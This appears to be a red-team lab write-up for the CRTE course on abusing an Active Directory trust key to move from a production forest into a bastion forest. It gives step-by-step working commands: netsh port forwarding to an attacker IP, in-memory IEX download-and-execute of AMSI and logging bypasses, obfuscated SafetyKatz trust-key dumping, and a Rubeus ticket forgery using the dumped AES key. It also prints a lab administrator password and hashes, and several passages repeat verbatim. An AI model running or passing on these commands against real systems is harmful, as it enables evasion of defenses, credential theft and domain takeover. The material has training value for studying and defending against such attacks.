


CRTE - Certified Red Team Expert
Cross Forest Attacks - Trusting to Trusted - Trust Key
Before we exploit Trust Keys to move from a trusting forest (production) to a trusted forest (bastion), we need to understand how trust relationships work and why this attack breaks the intended security model. When two forests establish a trust, they create a trust account, which acts as a secure channel for authentication requests. This trust account exists in both forests and holds a shared secret known as the trust key. The trust key is a cryptographic secret used to encrypt authentication traffic between forests, ensuring that users from one forest can authenticate in the other without exposing their actual credentials. In a Privileged Access Management (PAM) setup, the bastion forest is the trusted forest, and the production forest is the trusting forest. This means that authentication should only flow in one direction: administrators in bastion.local can elevate their privileges inside production.local, but not the other way around. The system is designed this way to prevent compromised production environments from affecting high-security bastion forests. However, if we compromise the production forest, we can extract the trust key and forge authentication requests to infiltrate bastion.local, effectively reversing the flow of access.Exploiting the Trust Key to Move from Trusting to Trusted
Since we control the production forest, our objective is to leverage the trust key to authenticate inside the bastion forest. This attack works because the trust key is symmetrical, meaning both forests can validate authentication requests using the same secret. Microsoft’s default configuration does not prevent authentication from flowing in the reverse direction, making this an effective method for breaking PAM security boundaries. To execute the attack, we first need to extract the trust key from production.local’s Domain Controller. The trust key is stored as an NTLM hash inside Active Directory, and we can retrieve it using a DCSync attack with mimikatz or SafetyKatz. This attack allows us to request the trust account’s password hash without needing direct access to the bastion forest’s DC. Once we have the trust key, we can use it to forge a Ticket Granting Ticket (TGT) for the trust account. With the forged TGT, we request authentication inside bastion.local. The key to this step is that we must use the trust key from the correct direction, meaning the trust key from bastion to production. Since the bastion forest recognizes the trust account as a valid entity, it allows us to authenticate using the forged TGT, effectively giving us a foothold inside the bastion forest. This technique is particularly dangerous because it does not require us to compromise any user credentials inside bastion.local. Instead, we abuse a default trust configuration that allows authentication requests to flow bidirectionally. By leveraging the trust key, we become a trusted entity inside bastion.local, allowing us to escalate further.Privilege Escalation Inside the Bastion Forest
Once we gain initial access inside bastion.local, we shift our focus to privilege escalation. The trust account we used for authentication is a domain user inside bastion.local, meaning it may have access to shared resources, Kerberos tickets, or even privileged delegation paths. One of the fastest ways to escalate privileges is through Kerberos delegation abuse. If the trust account is configured with unconstrained delegation, we can capture TGTs of privileged users when they authenticate to the compromised system. If resource-based constrained delegation (RBCD) is in use, we can modify delegation settings to impersonate an Enterprise Admin inside bastion.local. Another powerful method is SID history injection. If SID filtering is disabled, we can inject a bastion.local privileged SID into our authentication token, effectively granting us Domain Admin or Enterprise Admin rights inside the bastion forest. Additionally, if the bastion domain controllers allow DCSync operations, we can perform another DCSync attack to extract all NTLM hashes for bastion.local, giving us complete control over the bastion environment.Why This Attack Is Devastating
This attack is critical because it completely bypasses the intended security model of PAM Trusts. By default, privileged access should never flow from production to bastion, but by abusing the trust key, we force authentication to work in the opposite direction. This means that even if an organization has implemented Privileged Access Management, an attacker can still escalate into the most secure part of the environment simply by leveraging a default setting that allows trust keys to be used bidirectionally. Once we establish full control over bastion.local, we can compromise all privileged accounts, modify trust settings, and set up persistent access to ensure that even if defenders detect the intrusion, we maintain control over the environment. This method of moving from a trusting forest (production) to a trusted forest (bastion) using the trust key is one of the most effective cross-forest attack techniques because it requires no additional misconfigurations beyond the default trust setup. By extracting the trust key, forging Kerberos tickets, and abusing delegation, we break the security boundary between forests, leading to full administrative control over an environment that was never meant to be accessible from a lower-privileged forest.
Let’s assume that we have compromised a Production(Users) Forest already and our main idea is to compromise a Bastion(Admin) Forest. We are on our compromised target and we decided to do some enumeration and from this enumeration we were able to find a doc file containing several credentials for example.
Enumeration Phase
Let’s assume that we have compromised a Production(Users) Forest already and our main idea is to compromise a Bastion(Admin) Forest. We are on our compromised target and we decided to do some enumeration and from this enumeration we were able to find a doc file containing several credentials for example. InvisiShell is a tool designed to bypass security controls in PowerShell, allowing for the stealthy execution of scripts by circumventing enhanced logging mechanisms and detection by security software. Here’s a detailed explanation of how InvisiShell works:- Bypassing PowerShell Security Measures: InvisiShell is specifically created to bypass system-wide transcription, script block logging, and the Anti-Malware Scan Interface (AMSI).
- Hooking .NET Assemblies: InvisiShell achieves its bypass by hooking into the .NET assemblies System.Management.Automation.dll and System.Core.dll.
- Methods of Use: InvisiShell can be launched in two ways, depending on the user's privileges:
- Incapacitating Security Features: By hooking into these .NET assemblies, InvisiShell disables system-wide transcription, AMSI, and script block logging for the current PowerShell session.
- Avoiding Detection: When using InvisiShell, the tool hooks to System.Management.Automation.dll and System.Core.dll, which allows it to avoid system-wide transcription, script block logging, and AMSI.
- Integration with Other Tools: The sources show that InvisiShell can be used in conjunction with other tools, such as PowerUp, PowerView, the AD module, and other PowerShell scripts.
- Clean-up Process: To complete the clean-up, users must type exit in the new PowerShell session created by InvisiShell.
- Modified Version: The class uses a slightly modified version of InvisiShell.
- Location of Tools: All the tools, including InvisiShell, used in the lab environment are located in the C:\AD\tools directory on the student VM. The lab manual also notes that this directory is exempted from Windows Defender, but AMSI may still detect some tools when loaded.
- InvisiShell and Binaries: It is noted that binaries like Rubeus.exe may be inconsistent when used from within an InvisiShell session and should be run from a normal command prompt.
- Example Usage: The lab manual provides examples of using InvisiShell to launch a PowerShell session, import modules, and run commands to exploit a service, bypass AMSI, and extract credentials from a remote machine.

Portforwarding to bypass EDR
What If we simply download and execute the files in memory on the target machine? We could simply download file by calling it straight from our attacking IP, but we would easily be caught by Defender or any sort of defense mechanism in place on our network.Let’s highlights the importance of my statement above.
Evading detection by security tools when performing actions such as credential dumping with tools like SafetyKatz can be a trigger to compromise all our Red Team operation and let me tell you why.
- Direct Execution is Easily Detected: Running tools like SafetyKatz or any other file directly from an attacker's IP address makes it easy for security tools to detect the activity. Security mechanisms, such as Windows Defender and Microsoft Defender for Endpoint (MDE), are designed to identify known malicious tools, their signatures, and their behaviors.
- Network Traffic Monitoring: When Rubeus is executed from an external IP, it generates network traffic that can be monitored and flagged by security tools.
- LSASS Process Access is a Red Flag: Tools like SafetyKatz attempt to access the LSASS process to extract credentials from memory. This is a highly suspicious activity that will easily be detected and is a major indicator of a malicious attack.
- Bypassing Detection Mechanisms: To avoid detection, attackers need to implement various bypass techniques, including:
 netsh interface portproxy add v4tov4:
netsh interface portproxy add v4tov4:
- netsh interface portproxy: This is the part of the netsh utility that deals with port forwarding. It allows forwarding TCP traffic from one IP/port combination to another.
- add: Specifies that you're adding a new forwarding rule.
- v4tov4: Indicates that both the listening and connecting addresses use IPv4.
2. listenport=8080:
- The port on the local machine (target machine) where the service will "listen" for incoming connections.
- In this case, the machine will listen on port 8080.
3. listenaddress=127.0.0.1:
- The IP address on the local machine where the service will listen for connections.
- 0.0.0.0 means it will listen on all network interfaces available on the machine (e.g., public, private, or loopback IPs).
4. connectport=80:
- The port on the remote machine (Out Attacking Machine) to which traffic will be forwarded.
- In this case, port 80 (commonly used for HTTP).
5. connectaddress=192.168.100.163:
- The IP address of the remote machine (Our Attacking Machine).

Hosting files on Attacking Host
We should be hosting our files in our attacking host. This will be requested by our Target.
Disabling Defender
Before we carry on with our target host, we need to disable our firewall on our side. This way we can host the file on our machine with no issues, without having the firewall complaining. Now that we do have all setup, let’s get our Powershell defense mechanism like Script Block Logging and AMSI bypassed, and we will accomplish this by requesting fileless and executing it into the memory straightforward once requested.
Remeber, our request to any file here will be made via 127.0.0.1 which is out local IP because we have configured the PortForwarding using netsh by pointing that all the requests done to 127.0.0.1 on port 8080 to be redirected to our attacking IP 192.168.100.163 on port 80.
The following commnd will be requesting 2 files, one to bypass Script Block Logging and the other to bypass AMSI.
IEX(IWR http://127.0.0.1:8080/sbloggingbypass.txt -UseBasicParsing); IEX(IWR http://127.0.0.1:8080/amsibypass.txt -UseBasicParsing)
Now that we do have all setup, let’s get our Powershell defense mechanism like Script Block Logging and AMSI bypassed, and we will accomplish this by requesting fileless and executing it into the memory straightforward once requested.
Remeber, our request to any file here will be made via 127.0.0.1 which is out local IP because we have configured the PortForwarding using netsh by pointing that all the requests done to 127.0.0.1 on port 8080 to be redirected to our attacking IP 192.168.100.163 on port 80.
The following commnd will be requesting 2 files, one to bypass Script Block Logging and the other to bypass AMSI.
IEX(IWR http://127.0.0.1:8080/sbloggingbypass.txt -UseBasicParsing); IEX(IWR http://127.0.0.1:8080/amsibypass.txt -UseBasicParsing)
 Now that we were able to to bypass Powershell defense mechanism, let’s do some enumeration. Assuming that we were able find some valid clear-text credentials during our enumeration.
Now that we were able to to bypass Powershell defense mechanism, let’s do some enumeration. Assuming that we were able find some valid clear-text credentials during our enumeration.
 In this script we ended up finding out the production.local Domain Administrator clear-text passwordProductivityMatters@2048Gigs and functionality to test CredSSP authentication.
Because this file name and script itself refer to CredSSP, we can check if CredSSP has been enabled on our target.
Get-WSManCredSSP
In this script we ended up finding out the production.local Domain Administrator clear-text passwordProductivityMatters@2048Gigs and functionality to test CredSSP authentication.
Because this file name and script itself refer to CredSSP, we can check if CredSSP has been enabled on our target.
Get-WSManCredSSP

We can see that CredSSP has been configured on production.local. Since CredSSP has been setup on the target we can check to see if the CredSSP client is enabled locally on our attacking machine to gain a PSRemote session onto production-dc bypassing the Kerberos double hop. We will be using Get-ItemProperty for that.
Finally check settings using PowerShell (admin) to see if CredSSP client authentication and Trusted Hosts are set, we find that they are enabled and configured by checking the Registry Key for that. Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\WinRM\Client" -Name "AllowCredSSP" We can see above that, CredSSP client authentication has been configured.
It is also possible to confirm that Trusted Hosts are set to everyone by issue the following command as well.
Get-Item WSMan:\localhost\Client\TrustedHosts
We can see above that, CredSSP client authentication has been configured.
It is also possible to confirm that Trusted Hosts are set to everyone by issue the following command as well.
Get-Item WSMan:\localhost\Client\TrustedHosts

Currently we have Value = because we are trusting everyone. This is not the best setup, but for labbing purpose its OK.
Now we can get access to production.local Domain Controller as Domain Administrator and we will be doing this by using PowerShell Remoting to avoid double hop. $password = ConvertTo-SecureString 'ProductivityMatters@2048Gigs' -AsPlainText -Force $credential = New-Object System.Management.Automation.PSCredential('production\administrator', $Password) $session = New-PSSession -cn production-dc.production.local -Credential $credential -Authentication Credssp Enter-PSSession -Session $session
As we can see now, we were able to access the production.local Domain Controller as Domain Admin. Now that we have a new session as Domain admin in production.local, we need to once again bypass Script Block Logging and AMSI and we will do it again by requesting fileless and running into the memory. IEX(IWR http://127.0.0.1:8080/sbloggingbypass.txt -UseBasicParsing); IEX(IWR http://127.0.0.1:8080/amsibypass.txt -UseBasicParsing) After this bypass let’s download Loader onto the target and leverage SafetyKatz and netsh as before to extract the trust key [out] for bastion-dc. wget http://127.0.0.1:8080/Loader.exe -o C:\Users\Public\Loader.exe
OPSEC Alert: Next execution is performed under PowerShell rather than native cmd here to leverage CredSSP and bypass double hop issues.$z="t"
$y="s"
$x="u"
$w="r"
$v="t"
$u=":"
$t=":"
$s="p"
$r="m"
$q="u"
$p="d"
$o="a"
$n="s"
$m="l"
$Pwn=$m + $n + $o + $p + $q + $r + $s + $t + $u + $v + $w + $x + $y + $z
 Let’s now use SafetyKatz and dump the Trust Key between [OUT] Bastion.local → Production.local.
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe -args "$Pwn /patch" "exit"
Let’s now use SafetyKatz and dump the Trust Key between [OUT] Bastion.local → Production.local.
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe -args "$Pwn /patch" "exit"

Domain: BASTION.LOCAL (BASTION / S-1-5-21-284138346-1733301406-1958478260)
[ In ] PRODUCTION.LOCAL -> BASTION.LOCAL
[ Out ] BASTION.LOCAL -> PRODUCTION.LOCAL
2/24/2025 9:04:32 PM - CLEAR - 29 09 c3 19 5f 8c c4 ce 84 e5 8e 83 6f b8 b8 fc 28 0d c8 86 20 25 b8 34 24 05 cf 8b 7c 2b fe 31 39 ec 47 53 3c 32 7c 65 7b 1a fd 6d 10 9f f0 48 fb 7b 2f e7 4b 50 0d d5 59 3c f2 ce 79 42 fc 0f 4e 53 4c 8d 9e 48 fc 84 f3 23 c3 ad c4 a3 f7 6c 41 fc a7 71 91 d3 02 f9 98 db bd 8c 6b 9b a8 0f 94 81 01 af d0 b1 12 2b 0e 5d 6a 87 7d 7c 18 0a 25 74 df b3 95 9a 7b 47 f5 6e 37 27 ef 7c f3 61 99 87 22 c0 dc 58 69 ba 49 3a 57 d2 06 a8 27 9e 09 f7 4c b5 9d b2 57 12 62 1e 19 84 53 47 d2 96 7d 53 8b 4e 9f 81 76 b9 c5 49 5b 6a 9d 9b ff 5e 24 ab ca b9 4d 26 aa b3 32 f0 3a a0 be 8e 11 53 f8 71 ab af d7 ed 2c e2 91 f2 b5 32 aa 7e c8 f7 e4 e7 67 e3 9e dc 35 be 9a b1 46 c0 b2 23 d5 6b 24 5f f4 7a 89 60 13 63 b8 d5 82 ae 49 b9 97 c7
aes256_hmac 600a93e9fc91486a4987f089561df32feb2c841f0f6613767d1c98f6717be365
aes128_hmac cdd811998ef3e7e1be93bbbf09f07687
* rc4_hmac_nt d19236bd54b3041b4fdfc2987b21f4c2
$z="t"
$y="g"
$x="t"
$w="k"
$v="s"
$u="a"
$Pwn=$u + $v + $w + $x + $y + $z
 The /ptt flag allows us to directly inject this TGT into our session, meaning we can now authenticate as PRODUCTION$ without needing explicit credentials.
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/Rubeus.exe -args $Pwn /user:production$ /domain:bastion.local /aes256:600a93e9fc91486a4987f089561df32feb2c841f0f6613767d1c98f6717be365 /dc:bastion-dc.bastion.local /nowrap /ptt
The /ptt flag allows us to directly inject this TGT into our session, meaning we can now authenticate as PRODUCTION$ without needing explicit credentials.
C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/Rubeus.exe -args $Pwn /user:production$ /domain:bastion.local /aes256:600a93e9fc91486a4987f089561df32feb2c841f0f6613767d1c98f6717be365 /dc:bastion-dc.bastion.local /nowrap /ptt
 This method effectively bypasses intended PAM security controls, proving that trust keys can be abused to move from a trusting to a trusted forest, breaking the assumed security isolation. Now that we have access to bastion.local, our next objective is to escalate privileges within the bastion forest to gain full control.
Since CredSSP is used we can bypass the double hop for ticket imports / AD authentication and other actions that require some form of delegation. If we check klist tickets, we are able to find the ticket injected.
klist
This method effectively bypasses intended PAM security controls, proving that trust keys can be abused to move from a trusting to a trusted forest, breaking the assumed security isolation. Now that we have access to bastion.local, our next objective is to escalate privileges within the bastion forest to gain full control.
Since CredSSP is used we can bypass the double hop for ticket imports / AD authentication and other actions that require some form of delegation. If we check klist tickets, we are able to find the ticket injected.
klist

We can finelly access the bastion-dc.bastion.local our Bastion (Admin) Forest. Let’s do a Net View command and see what we can access inside Bastion-DC. net view \\bastion-dc.bastion.local